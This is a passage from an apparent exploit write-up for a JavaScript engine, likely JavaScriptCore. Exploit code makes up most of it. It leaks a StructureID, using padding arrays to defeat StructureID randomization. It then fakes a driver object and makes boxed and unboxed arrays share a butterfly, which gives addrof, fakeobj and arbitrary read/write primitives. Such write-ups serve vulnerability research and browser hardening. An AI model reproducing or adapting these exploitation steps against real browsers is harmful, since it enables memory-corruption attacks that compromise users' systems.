 ```js

    // print(123); 
    let structureID = u32[0];
    u32[1] = 0x01082307 - 0x20000;
    container.cellHeader = f64[0];

    return structureID;
}

let pad = new Array(noCoW, 2.2, {}, 13.37);
let pad1 = new Array(noCoW, 2.2, {}, 13.37, 5.5, 6.6, 7.7, 8,8);
let pad2 = new Array(noCoW, 2.2, {}, 13.37, 5.5, 6.6, 7.7, 8,8);
var arrLeak = new Array(noCoW, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8);
// print(describe(pad));
// print(describe(arrLeak)); 
// let structureID = LeakStructureID2(arrLeak);
let structureID = LeakStructureID(arrLeak);
print("[+] leak structureID: "+hex(structureID));
```

There is also a small `trick` here, which I added some `pad` arrays in front of  `arrLeak`. The function of these `pads` is to fill the memory, so that when `arrLeak` is used as the `butterfly` of `fake obj`, the memory before the `butterfly`  (`arrLeak`) has a value instead of `0`. It will ensure that trigger no error when accessing element during leaking the `strcucture id`. For details about bypass `StructureID Randomization`, please see my post "StructureID Randomization Source Code Analysis and Bypass".

Of course, we can also call the `describe` function to obtain a valid `structure id` like the way existing `writeup` does, but it's feel not so cool.

The next thing is to construct the `NewAddrOf` and `NewFakeObj` primitives by constructing the `boxed` array and `unboxed` array  with shared `butterfly`, and then construct `aar` and `aaw` primitives  with the `prop` property access.

```js
pad = [{}, {}, {}];
var victim = [noCoW, 14.47, 15.57];
victim['prop'] = 13.37;
victim['prop_0'] = 13.37;

u32[0] = structureID;
u32[1] = 0x01082309-0x20000;
// container to store fake driver object
var container = {
    cellHeader: f64[0],
    butterfly: victim   
};
// build fake driver
var containerAddr = AddrOf(container);
var fakeArrAddr = containerAddr + 0x10;
print("[+] fake driver object addr: "+hex(fakeArrAddr));
var driver = FakeObj(fakeArrAddr);

// ArrayWithDouble
var unboxed = [noCoW, 13.37, 13.37];
// ArrayWithContiguous
var boxed = [{}];

// leak unboxed butterfly's addr
driver[1] = unboxed;
var sharedButterfly = victim[1];
print("[+] shared butterfly addr: " + hex(f2i(sharedButterfly)));
// now the boxed array and unboxed array share the same butterfly
driver[1] = boxed;
victim[1] = sharedButterfly;
```